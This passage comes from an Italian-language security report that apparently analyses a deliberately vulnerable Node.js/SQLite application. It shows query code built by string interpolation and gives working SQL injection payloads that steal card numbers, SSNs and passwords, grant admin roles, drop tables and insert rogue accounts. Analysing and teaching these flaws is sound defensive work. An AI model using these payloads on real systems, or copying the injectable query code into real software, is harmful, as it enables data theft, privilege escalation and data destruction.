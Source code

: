 ```javascript
const query = `SELECT id, name, description, price, stock FROM products WHERE name LIKE '%${searchQuery}%'`;
```

**Vettori di Attacco**:
- **Estrazione Dati Sensibili**: `' UNION SELECT credit_card,ssn,secret_notes,1,1 FROM sensitive_data--` recupera informazioni confidenziali
- **Raccolta Credenziali Utente**: `' UNION SELECT username,password,email,role,1 FROM users--` espone dati di autenticazione
- **Analisi Struttura Database**: `' UNION SELECT name,sql,1,1,1 FROM sqlite_master WHERE type='table'--` rivela informazioni dello schema

**Impatto sulla Sicurezza**: Potenziale di violazione dati massiva, esponendo informazioni identificative personali, dati finanziari e credenziali di sistema.

### 3.4 Esecuzione di Query Concatenate (Manipolazione Dati)

**Endpoint**: `POST /update-profile`

**Meccanismo della Vulnerabilità**:
La funzionalità di aggiornamento profilo consente multiple istruzioni SQL attraverso il metodo `db.exec()`:

```javascript
const query = `UPDATE users SET email = '${bio}' WHERE username = '${username}'`;
db.exec(query, callback);
```

**Vettori di Attacco**:
- **Escalation Privilegi**: `fake'; UPDATE users SET role='admin' WHERE username='john_doe'; --` promuove utenti regolari ad amministratori
- **Distruzione Dati**: `fake'; DROP TABLE products; --` elimina dati critici di business
- **Inserimento Dati Malevoli**: `fake'; INSERT INTO users (username,password,email,role) VALUES ('hacker','pwd','h@ck.er','admin'); --` crea account non autorizzati

**Impatto sulla Sicurezza**: Compromissione completa del sistema, consentendo manipolazione dati, escalation privilegi e interruzione del servizio.

## 4. Analisi dell'Impatto sulla Triade CIA

### 4.1 Compromissione della Confidenzialità

**Scenario di Attacco**: Estrazione union-based di dati sensibili
**Impatto**: Divulgazione non autorizzata di:
- Numeri di carte di credito e informazioni finanziarie
- Codici fiscali e identificatori personali
- Note private e comunicazioni confidenziali
- Credenziali utente e dati di autenticazione

**Dimostrazione**:
```bash
GET /search?query=' UNION SELECT credit_card,ssn,secret_notes,1,1 FROM sensitive_data--
```
